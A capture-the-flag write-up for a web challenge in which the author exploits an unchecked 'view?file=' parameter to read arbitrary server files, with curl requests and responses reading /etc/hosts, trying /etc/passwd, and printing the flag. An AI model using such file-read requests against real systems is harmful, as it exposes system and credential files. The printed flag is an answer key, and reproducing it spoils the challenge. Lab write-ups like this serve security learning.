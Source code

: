 # What to do during Christmas? (web) (author: stn)

## Description

```shell
If you need a good excuse to discuss a security topic during a family reunion, the elves prepare a list of cybersecurity-related books and movies. Try to get one during Christmas and enjoy!

PS: We hope they have done a good job securing the web app ;-)

In new browser tab enter url: http://cyberxmas.milestone.dk:[YOUR_DOCKER_PORT>/
```

## Task analysis & solution

The challenge is in web category and when browse the url, after you will see a redirect message:
![alt text](image-1.png)

After these 15 seconds you are ended up to this page:
 
 ![alt text](image.png)

That redirected location looked suspicious to me as in the browser we can see the following:

*```view?file=index.html```*

So we have a view with a **`file`** filter command.

The fist thing that come to my mind is to try with some dummy data -> dummy.html

![alt text](image-2.png)

The responce we've got is interesting:
```No such file or directory: '/app/dummy.html'```

So it search a dummy.html file in /app directory
Let's try to use some common linux files like /etc/hosts or /etc/passwd

For easy playground I've moved to curl in cmd shell:

Trying with /etc/hosts
```shell
$ curl http://10.10.8.61:46510/view?file=/etc/hosts -v
*   Trying 10.10.8.61:46510...
* Connected to 10.10.8.61 (10.10.8.61) port 46510
> GET /view?file=/etc/hosts HTTP/1.1
> Host: 10.10.8.61:46510
> User-Agent: curl/8.9.1
> Accept: */*
>
* Request completely sent off
* HTTP 1.0, assume close after body
< HTTP/1.0 200 OK
< Content-Disposition: inline; filename=hosts
< Content-Type: application/octet-stream
< Content-Length: 174
< Last-Modified: Sun, 05 Jan 2025 12:02:11 GMT
< Cache-Control: no-cache
< ETag: "1736078531.4621272-174-324273100"
< Date: Sun, 05 Jan 2025 19:38:49 GMT
< Server: Werkzeug/2.0.3 Python/3.9.20
<
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.17.0.2      97804735efee
* shutting down connection #0
```

Trying with /etc/passwd:
```shell
$ curl http://10.10.8.61:46510/view?file=/etc/passwd -v
*   Trying 10.10.8.61:46510...
* Connected to 10.10.8.61 (10.10.8.61) port 46510
> GET /view?file=/etc/passwd HTTP/1.1
> Host: 10.10.8.61:46510
> User-Agent: curl/8.9.1
> Accept: */*
>
* Request completely sent off
* Recv failure: Connection was reset
* closing connection #0
curl: (56) Recv failure: Connection was reset
```

So for hosts works for passwd nope.

The next thing to try is to search for the flag, and based on my experience from previous challenges,
I decided to try with **`flag.txt`** as file name (that name was used in some docker & web categories)

```shell
$ curl http://10.10.8.61:46510/view?file=flag.txt -v
*   Trying 10.10.8.61:46510...
* Connected to 10.10.8.61 (10.10.8.61) port 46510
> GET /view?file=flag.txt HTTP/1.1
> Host: 10.10.8.61:46510
> User-Agent: curl/8.9.1
> Accept: */*
>
* Request completely sent off
* HTTP 1.0, assume close after body
< HTTP/1.0 200 OK
< Content-Disposition: inline; filename=flag.txt
< Content-Type: text/plain; charset=utf-8
< Content-Length: 40
< Last-Modified: Wed, 04 Dec 2024 13:40:43 GMT
< Cache-Control: no-cache
< ETag: "1733319643.0-40-532153544"
< Date: Sun, 05 Jan 2025 19:43:38 GMT
< Server: Werkzeug/2.0.3 Python/3.9.20
<
MlestoneCTF{web_security_can_be_simple}
* shutting down connection #0
```

I've got a lucky shot: *```MlestoneCTF{web_security_can_be_simple}```*